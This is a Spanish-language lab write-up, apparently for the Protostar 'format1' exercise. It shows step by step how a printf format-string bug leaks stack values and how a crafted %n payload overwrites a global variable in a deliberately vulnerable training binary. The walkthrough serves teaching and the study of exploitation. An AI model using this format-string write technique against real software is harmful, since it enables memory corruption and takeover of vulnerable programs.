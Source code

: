 
---------------------------------------------------------------------------
## Sobreescribir una variable -> [format1](https://exploit.education/protostar/format-one/)

Este binario toma un argumento (al que llama "string"), lo mete en la funcion **printf()** y te imprime dicho argumento

  	```console
  	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA
  	AAA[user@protostar]-[/opt/protostar/bin]:$ 
  	```
Como no hace un salto de linea, lo ponemos nosotros concatenando "; echo"
  
	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA; echo
	AAA
    	[user@protostar]-[/opt/protostar/bin]:$ 
  	```
¿Si en vez de pasarle una "A" le pasamos una cadena de formateo como %x (numero hexadecimal)?
  
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 %x; echo
	804960c
   	[user@protostar]-[/opt/protostar/bin]:$ ./format1 "%x %x"; echo
   	804960c bffff6e8
  	```
 Este "bffff6e8" parece una direccion de la pila...
 
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ python -c "print('%x'*4)"  > /tmp/pattern
    	[user@protostar]-[/opt/protostar/bin]:$ gdb ./format1
    	(gdb) disas vuln
    	Dump of assembler code for function vuln:
    	0x080483f4 <vuln+0>:	push   %ebp
   	0x080483f5 <vuln+1>:	mov    %esp,%ebp
  	0x080483f7 <vuln+3>:	sub    $0x18,%esp
    	0x080483fa <vuln+6>:	mov    0x8(%ebp),%eax
    	0x080483fd <vuln+9>:	mov    %eax,(%esp)
    	0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
    	0x08048405 <vuln+17>:	mov    0x8049638,%eax
    	0x0804840a <vuln+22>:	test   %eax,%eax
    	0x0804840c <vuln+24>:	je     0x804841a <vuln+38>
    	0x0804840e <vuln+26>:	movl   $0x8048500,(%esp)
    	0x08048415 <vuln+33>:	call   0x8048330 <puts@plt>
    	0x0804841a <vuln+38>:	leave  
    	0x0804841b <vuln+39>:	ret    
    	End of assembler dump.
    	(gdb) b *0x08048400
   	(gdb) run < /tmp/pattern
  	Starting program: /opt/protostar/bin/format1 < /tmp/pattern
    	Breakpoint 4, 0x08048400 in vuln (string=0x0) at format1/format1.c:10
    	10	format1/format1.c: No such file or directory.
      	in format1/format1.c
    	(gdb) x/40wx $esp
    	0xbffff670:	0x00000000	0x0804960c	0xbffff6a8	0x08048469
    	0xbffff680:	0xb7fd8304	0xb7fd7ff4	0xbffff6a8	0x08048435
    	0xbffff690:	0x00000000	0xb7ff1040	0x0804845b	0xb7fd7ff4
    	0xbffff6a0:	0x08048450	0x00000000	0xbffff728	0xb7eadc76
    	0xbffff6b0:	0x00000001	0xbffff754	0xbffff75c	0xb7fe1848
    	0xbffff6c0:	0xbffff710	0xffffffff	0xb7ffeff4	0x0804824d
    	0xbffff6d0:	0x00000001	0xbffff710	0xb7ff0626	0xb7fffab0
    	0xbffff6e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
    	0xbffff6f0:	0xbffff728	0x8160bf58	0xab35a948	0x00000000
    	0xbffff700:	0x00000000	0x00000000	0x00000001	0x08048340
  	```
    
Como podemos ver la segunda entrada de la pila es nuestro "0x0804960c" que se imprimió antes, es decir, prinf(%x) imprime contenido de la pila.

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*150 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
     	8048469
    	b7fd8304
    	b7fd7ff4
    	...
    	2e000000
    	726f662f
    	3174616d
    	41414100
    	42424241
    	7838252e
    	7838252e
  	```
   Nos está imrpimiendo muchos valores de la pila, en cierto momento, se ven "41" y "42", que equivalen a nuestras "A" y "B", seguidos de "7838252e"
   que son nuestras "%8x.". El objetivo, esque sean las A los útlimos valores que salgan, para eso hay que reducir las x u offset.
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	726f662f
    	3174616d
    	41414100
    	42424241
    	```
   El problema esque se han mezclado los 42 y los 41 (A)s y (B)s, y tiene que quedar perfecto, asi que se reduce el numero de "B"

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
   	bffff488
    	...
    	41414141
    	78382542
    	7838252e
    	7838252e
    	7838252e
    	```
   Se quitan mas "x"

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*168 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	2f2e0000
    	6d726f66
    	317461
    	41414141
    	```
  Perfecto, ya están alineados nuestras, "A". Pero ahora lo que interesa es cambiar esas "A" por otra cosa, la direccion de la varaible 
  que queremos modificar:
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ objdump -t ./format1 | grep "target"
	08049638 g     O .bss	00000004              target
  	```
  La direccion de la variable "target" es *0x08049638* que si lo pasamos a endian (dar la vuelta a los bytes) sale -> *\x38\x96\x04\x08*
  Ahora sustituimos las "AAAA" por esa dirección (ambas cosas ocupan 4 bytes).
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	317461
    	8049638
    	```
  Perfecto, la dirección de memoria se ha alineado perfectamente. Ahora hay que sobrrescribirla cambiando la "%x" por "%n"
  
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%n')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	317461
    	you have modified the target :)
    	```
  Y ya está, primer format completado.

  
    
   
